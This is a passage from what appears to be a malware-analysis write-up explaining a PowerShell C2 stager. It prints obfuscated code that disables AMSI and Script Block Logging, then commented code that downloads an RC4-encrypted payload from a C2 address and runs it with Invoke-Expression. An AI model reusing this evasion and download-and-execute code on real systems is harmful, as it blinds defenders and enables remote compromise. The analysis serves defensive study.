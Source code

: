 ```powershell
    ELse
    {
        [SCrIPTBLoCK]."GEtFie`Ld"('signatures','N'+'onPublic,Static').SetVALuE($NuLl,(NeW-OBjECT COLLectIONS.GEneriC.HASHSET[stRiNg]))
    }
    $REF=[REf].AssEMbly.GetTYPE('System.Management.Automation.Amsi'+'Utils');
    $REf.GEtFIeLd('amsiInitF'+'ailed','NonPublic,Static').SETVAlUe($NUll,$tRUE);
};
```

This part is not very interesting for us, what it basically does is based on the powershell version, it will disable the [**Script Block Logging**](https://www.fireeye.com/blog/threat-research/2016/02/greater_visibilityt.html "Script block logging records blocks of code as they are executed by the PowerShell engine, thereby capturing the full contents of code executed by an attacker, including scripts and commands. Due to the nature of script block logging, it also records de-obfuscated code as it is executed. While not available in PowerShell 4.0, PowerShell 5.0 will automatically log code blocks if the block’s contents match on a list of suspicious commands or scripting techniques, even if script block logging is not enabled.").

This is a powershell feature that logs executed commands and scripts.

The second part of the script will give us more information on how the client will reply to the C2 server. I'll comment directly into the code:

```powershell
[SysTEM.NEt.SeRviCEPoInTMANAGer]::EXPEct100ConTINue=0;
$89818=NEW-ObJECt SYsTEm.NEt.WeBCLiEnT;
$u='Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko';

# Base64 encoded value for http://192.168.1.9:80
$ser=$([TExT.EncODiNg]::UnIcode.GeTSTRiNG([CONveRt]::FRomBase64STRiNG('aAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4AMQAuADkAOgA4ADAA')));

$t='/news.php';
$89818.HeAdERS.ADD('User-Agent',$u);
$89818.PrOxY=[SySteM.NEt.WeBREquEsT]::DEFAULtWebPrOxY;
$89818.PrOXY.CREDENTIALs = [SYstEM.Net.CreDeNtIAlCacHE]::DEfaulTNetwOrKCRedENtIals;$Script:Proxy = $89818.Proxy;

# Staging Key. One of the two parts needed for the decryption key
$K=[SysTem.TeXT.ENCoDINg]::ASCII.GetBytes('w,PNLOZycKI<usBdSQ~jp;5?!MJ9#1]A');

# RC4 algorithm
# The algorithm is the same for encryption and decryption
$R={$D,$K=$ARgs;$S=0..255;0..255|%{$J=($J+$S[$_]+$K[$_%$K.COuNt])%256;$S[$_],$S[$J]=$S[$J],$S[$_]};
$D|%{$I=($I+1)%256;$H=($H+$S[$I])%256;$S[$I],$S[$H]=$S[$H],$S[$I];$_-bxoR$S[($S[$I]+$S[$H])%256]}};

$89818.HEaDerS.Add("Cookie","wYmshpvXDmn=xh3bLxkNMIyDrcCdNO+vW6hh+ss=");

# Perform the request: GET http://192.168.1.9:80/news.php and save the data from the response as bytes in a variable
$DATa=$89818.DowNLoADData($ser+$t);

# IV is the 4 bytes of the response. One of the two parts needed for the decryption key
$Iv=$daTa[0..3];

# Since the 4 bytes are meant for the IV, remove the first 4 bytes to get the proper response data
$DATA=$datA[4..$DAta.leNGTH];

# Call the RC4 algorithm to decrypt the response data. The decryption key used is $IV + $K. 
# Once the data is decrypted, it is converted as a string and the command is executed with Invoke-Expression
-JOin[CHAR[]](& $R $DaTA ($IV+$K))|IEX
```
